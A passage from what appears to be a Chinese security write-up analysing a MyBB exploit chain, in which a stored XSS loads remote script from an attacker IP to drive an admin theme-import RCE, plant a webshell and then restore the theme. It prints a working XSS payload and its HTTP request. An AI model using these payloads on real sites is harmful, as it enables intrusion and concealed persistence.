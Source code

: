 [![](https://p0.ssl.qhimg.com/t016fd63c924a6e46bf.png)](https://p0.ssl.qhimg.com/t016fd63c924a6e46bf.png)

最终返回到 eval 中执行，成功 RCE

[![](https://p1.ssl.qhimg.com/t01ff6efc382c0d671e.png)](https://p1.ssl.qhimg.com/t01ff6efc382c0d671e.png)

不过由于我们篡改了开头的 SQL语句，所以 mybb会报错很正常。最好通过这个 RCE 写个马到 **cache** 或者 **upload** 目录之后，就将主题还原。

### <a class="reference-link" name="%E4%B8%A4%E4%B8%AA%E6%BC%8F%E6%B4%9E%E7%BB%93%E5%90%88%E4%BD%BF%E6%99%AE%E9%80%9A%E7%94%A8%E6%88%B7%E5%8F%AF%20RCE"></a>两个漏洞结合使普通用户可 RCE

由于前文的 RCE 需要管理员权限，普通用户无法直接触发。但现在有了一个 XSS ，可以尝试**通过 XSS 发送对应的 payload请求**。

**ps：无法在前台处盗取 cookie，因为 mybb 设置了`SameSite`为 `Lax`**

**XSS**

根据前文的 XSS漏洞分析可知，我们无法直接使用引号、尖括号和中括号。经过尝试构造以下 XSS payload 以插入一个js标签

**ps：前文分析XSS时是在回复处分析的，实际上发帖处也存在XSS**

```
//拿到 / 字符
xs1=String.fromCharCode(47);
//创建 script 元素
xa1=document.createElement(/script/.source);
//设置 script src属性
xa1.src=xs1+xs1+/192.168.92.165/.source+xs1+/1.js/.source;
//插入 script 标签
document.getElementById(/header/.source).append(xa1);
```

数据包：

```
POST /newthread.php?fid=2&amp;processed=1 HTTP/1.1
......
Content-Disposition: form-data; name="message"

[img]http://evil.com/xx(http://evil.com/onerror=xs1=String.fromCharCode(47);xa1=document.createElement(/script/.source);xa1.src=xs1+xs1+/192.168.92.165/.source+xs1+/1.js/.source;document.getElementById(/header/.source).append(xa1);//[/img]   
......
```

成功插入后，编写恶意 js文件，执行以下操作：
1. 获取后台当前的配置主题
1. 导入恶意主题XML配置，RCE代码为往 cache 目录写一个马
1. 设置当前主题为恶意主题
1. 请求首页，触发 RCE
1. 将当前主题设回原来的
1. 删除恶意主题
以上的请求可以通过 javascript 的 xmlhttp 来实现，由于是 xss 也就不存在跨域的问题了。
